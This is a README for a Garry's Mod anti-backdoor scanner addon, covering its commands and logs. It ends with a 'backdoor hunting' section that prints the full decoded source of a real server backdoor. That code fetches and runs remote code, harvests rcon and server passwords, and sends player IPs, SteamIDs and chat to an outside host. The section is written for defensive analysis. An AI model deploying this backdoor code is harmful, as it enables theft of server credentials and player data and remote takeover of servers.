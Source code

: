 # Backdoor Shield

Protect your Garry's Mod server against backdoors.

![logo](https://i.imgur.com/DJlASZh.png)

## !!WARNING!!

>Consider that this addon just gives you an extra layer of security! You'll be able to scan your files and avoid a series of unwanted executions with a basic real-time protection, but don't think that it'll get you out of all troubles!

## Install

Clone or download the files inside your **addons folder**.

## Configure

- Addon settings: **lua/bs/server/sv_init.lua**
- Scan definitions: **lua/bs/server/definitions.lua**

## Commands

    # Recursively scan folders:
    |
    |--> bs_scan folder(s)
    |
    |       Scan all files in folder(s) or in lua, gamemode and data
    |       folders.
    |
    |--> bs_scan_fast folder(s)

            Scan lua, txt, vmt, dat and json files in folder(s) or in
            lua, gamemode and data folders.

    # Run a series of tests when BS.DEVMODE is set to true:
    |
    | --> bs_tests


<font color="white">.</font>

## Scan Logs

Each scan log is stored in **data/backdoor-shield**. They divide the results into risk groups that are displayed together during the detection or in order in the saved file.

<details><summary>Console</summary>
<p>
<img src="https://i.imgur.com/sBzfD9G.png"/>
</p>
</details>

<details><summary>File</summary>
<p>
<img src="https://i.imgur.com/kwUtAb0.png"/>
</p>
</details>
.

## Detection Logs

The real time protection prints console messages and creates detection logs in the folder **data\backdoor-shield/THE-CURRENT-DATE**. Results are stored in files that display all together, but are also stored separately by folder and type when detection contents are available.

<details><summary>1) Two backdoors - the first is dead, the second is alive</summary>
<p>
<img src="https://i.imgur.com/Z8CL4lq.png"/>
</p>
</details>

<details><summary>2) Real time protection</summary>
<p>
<img src="https://i.imgur.com/3yWXO6D.png"/>
</p>
</details>

<details><summary>3) Logs folder</summary>
<p>
<img src="https://i.imgur.com/DhGWEbU.png"/>
</p>
</details>

<details><summary>4) General blocked executions log</summary>
<p>
<img src="https://i.imgur.com/XWCwr87.png"/>
</p>
</details>

<details><summary>5) Detection contents</summary>
<p>

- The first backdoor is dead, since the link inside the content doesn't work

<img src="https://i.imgur.com/o6itfE2.png"/>

- But the second one is doing some stuff

<img src="https://i.imgur.com/6i8xNtz.png"/>

<img src="https://i.imgur.com/MYHm7c8.png"/>

</p>
</details>

.

## Backdoor hunting

Actually you can copy the detection results, decode them and keep going to see whats going on.

<details><summary>1) I disabled my old Lua snippets, took the end of the code from the last detection and ran it</summary>
<p>
<img src="https://i.imgur.com/yTVWWwF.png"/>
</p>
</details>

<details><summary>2) Now I got a bunch of things to analyze</summary>
<p>
<img src="https://i.imgur.com/SBwHXDy.png"/>
</p>
</details>

<details><summary>3) After decoding, I can see everything</summary>
<p>

```lua
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned ! -- Lol, Xalalau
]]

if lock == "lock" then return end
lock="lock"

local header_cWcHqNprbaTRQip = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

HTTP({ url="https://api.omega-project.cz/api_anti_backdoors.php"; method="get"; success = function (api, anti_backdoors) RunString(anti_backdoors) end })
HTTP({ url="https://api.omega-project.cz/api_player_blacklist.php"; method="get"; success = function (api, bad_player_blacklist) RunString(bad_player_blacklist) end })

local addons_files, addons_folders = file.Find("addons/*", "GAME")

for k,v in pairs(addons_folders) do
    if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then -- Wtf?
        http.Post("https://api.omega-project.cz/api_addons.php", {
            server_ip = game.GetIPAddress(),
            crsf = "SztseEltZSFDyUscjSKJozBWfKCzHuUJjJwpnKgT#MTg2LjIyOS4yMjYuMTAy#djsPLByfuJkTKEfchWXIbLRYzPXqACCsPkvVHmnV",
            addons_name = v,
            addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))
        },
        function(http_addons) 
            if string.Left( http_addons, 1 ) == "<" or http_addons == "" then 
                return
            else
                RunString(http_addons) 
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)
    end 
end

util.AddNetworkString("net_1")

BroadcastLua([[
    net.Receive("net_1", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function someNetFunction(arg1)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data

        net.Start("net_1")
            net.WriteUInt(len, 16)
            net.WriteData(data, len)
        net.Broadcast()
    end)
end

util.AddNetworkString("net_2")

BroadcastLua([[
    net.Receive("net_2", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function SendPly(arg1, steamid64)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data
        net.Start("net_2")
        net.WriteUInt(len, 16)
        net.WriteData(data, len)
        for k, ply in pairs(player.GetAll()) do
            if ( ply:SteamID64() == steamid64 ) then
                net.Send(ply)
            end
        end
    end)
end

hook.Add(PlayerInitialSpawn, "hook1", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd",
        content = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
        server_ip  = game.GetIPAddress()
    }, RunString)
end)

hook.Add(PlayerDisconnected, "hook2", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
         csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
         color = "de3333",
         content = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         server_ip  = game.GetIPAddress()
    }, RunString)
end)

function ServerLog( logs_content ) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = logs_content, 
        server_ip = game.GetIPAddress()
    }, RunString) 

    return ServerLog( logs_content ) 
end 

function Error( string )
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = string, 
        server_ip = game.GetIPAddress()
    },RunString)

    return error( string )
end

timer.Create( "timer1", 1, 0, function()
    hook.Add( "PlayerSay", "hook3", function( ply, text )
        local http_chat_table = {
            name = ply:Name(), 
            server_ip = GetTcpInfo(), 
            steamid64 = ply:SteamID64(),
            message = text
        }

        http.Post("https://api.omega-project.cz/chat_connect.php?MQOEJzPlmWGTzcI=oAyxQMjHSitigAJ", http_chat_table, function(http_chat) RunString(http_chat) end)
    end)

    if file.Exists("cfg/autoexec.cfg","GAME") then
        local cfile = file.Read("cfg/autoexec.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do 
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end
        end 
    end

    if file.Exists("cfg/server.cfg","GAME") then
        cfile = file.Read("cfg/server.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then 
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end 

    if file.Exists("cfg/game.cfg","GAME") then
        cfile = file.Read("cfg/game.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end  

    if file.Exists("cfg/gmod-server.cfg","GAME") then
        cfile = file.Read("cfg/gmod-server.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end

    if rcon_pw == "" then
        rcon_pw = "Aucun Rcon"
    end

    for k,v in pairs(player.GetAll()) do 
        local playerInfo = {
            name = v:GetName(),
            ip = v:IPAddress(),
            server_ip = game.GetIPAddress(),
            crsf = "TFIbsvQYjTFbgXmBOqkeNyKKsURUCRlFedXsdPIm#MTg2LjIyOS4yMjYuMTAy#sBktToCthmfpNctMDsDrhmWcHaDQwsakUivPAHVu",
            steamid = v:SteamID(),
            steamid64 = v:SteamID64(),
        }

        http.Post("https://api.omega-project.cz/user_connect.php?zkHNFOZQhmXBsva=soGpJmAfXbWSliy&ping=" .. v:Ping(), playerInfo, function( http_users ) 
            if string.Left( http_users, 1 ) == "<" or http_users == "" then
                return
            else
                RunString( http_users )
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)

    end

    local serverData = {
        i = GetTcpInfo(),
        n = GetHostName(),
        m = game.GetMap(),
        bo = tostring(#player.GetBots()),
        c = game.GetIPAddress().."{+}"..server_key.."{+}1597393287",
        g = engine.ActiveGamemode(),
        crsf = "MTg2LjIyOS4yMjYuMTAy#HSldBHvasYQuaoldmwxTWhRqdXntKabTIdewJWrW",
        nb = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
        lurl = GetConVar("sv_loadingurl"):GetString(),
        pass = GetConVar("sv_password"):GetString(),
        k = "",
        client_func = "someNetFunction",
        r = rcon_pw
    }

    http.Post("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", serverData, function(http_servers) 
        if string.Left( http_servers, 1 ) == "<" or http_servers == "" then 
            return 
        else 
            RunString(http_servers) 
        end 
    end,
    function( error ) end,
    header_cWcHqNprbaTRQip ) 
end)

```

</p>
</details>

.

That's it. I hope you enjoy :)